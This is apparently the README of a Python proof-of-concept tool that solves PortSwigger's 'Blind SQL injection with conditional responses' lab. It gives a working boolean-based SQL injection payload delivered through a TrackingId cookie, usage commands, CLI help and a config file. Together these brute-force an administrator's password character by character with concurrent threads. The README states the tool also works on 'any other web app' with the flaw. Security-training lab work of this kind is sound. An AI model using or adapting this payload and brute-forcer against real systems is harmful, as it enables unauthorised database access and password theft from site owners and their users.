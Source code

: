 # SQLInjector

At the moment the app is able to test for cookie injection vulnerabilities. It can be passed the url to test, the code
to inject, the name of the cookie to inject, a confirmation string to be matched on the response content, chars-set to
use for brute forcing, password length, and max number of concurrent thread to run.

##### Testing
This code is a POC, and has been written to solve PortSwigger's lab: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses).
This lab can be used to test the code, or any other web app, where a cookie injection vulnerability exists. The app 
will inject the specified code in the cookie we specify by name, and submit the conditional statements to the web app,
checking if our chosen string can be matched on the response content.

##### The injection code
The code that can be injected by default is:
   ```sql
   ' anD (SELECT SUBSTRING(password,{char_numb},1) FROM users WHERE username = 'administrator') = '{character}'--`
   ```
The `{char_numb}` and the `{character}` tags are just placeholder. The Brute Forcer will replace the `{char_numb}`
with the character position (index) of the password string. The `{character}` tag will be replaced with a character
taken from the specified char-set.  
  
By changing these two values in the injected code, the Cookie Injector app will try to recover the administrator's
password.

### Usage:
1. Clone the repository

   ```zsh
    git clone https://github.com/hogchild/SQLInjector.git
   ```
2. cd into the SQLInjector directory
   ```zsh
   cd SQLInjector
   ```
3. Run Cookie Injector
   ```zsh
   python3.12 -m SQLInjector.cookie_injector --help
   ```
   ```zsh
   Usage: python -m SQLInjector.cookie_injector [OPTIONS]
   
     This app injects a cookie, sends the crafted request, and checks the
     response from the page content. It needs a JSON configuration file. You can
     edit this manually, at the path: 'config/cookie_injector.json'. The setup
     utility will run automatically, to create one, when launching
     cookie_injector.py without a configuration file in the config folder.
     Alternatively you can run it with the '-s' option.
   
   Options:
     -u, --set-url TEXT      Specify target URL instead of the one in config
                             file.
     -s, --setup-utility     Interactively edit the config file.
     -f, --config-file PATH  Path to config file.  [default:
                             config/cookie_injector.json; required]
     -o, --out-file PATH     Path to output file with the recovered password.
     --help                  Show this message and exit.
   ```
### Example Configuration File
**File path:** config/cookie_injector.json
```json
{
   "target_url": "https://0a76003c03fc905d81c6c029009800fa.web-security-academy.net/product?productId=2",
   "inject_code": "' anD (SELECT SUBSTRING(password,{char_numb},1) FROM users WHERE username = 'administrator') = '{character}'--",
   "passwd_length": 20,
   "char_set": "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789",
   "confirm_string": "Welcome",
   "cookie_name": "TrackingId",
   "max_threads": 20
}
```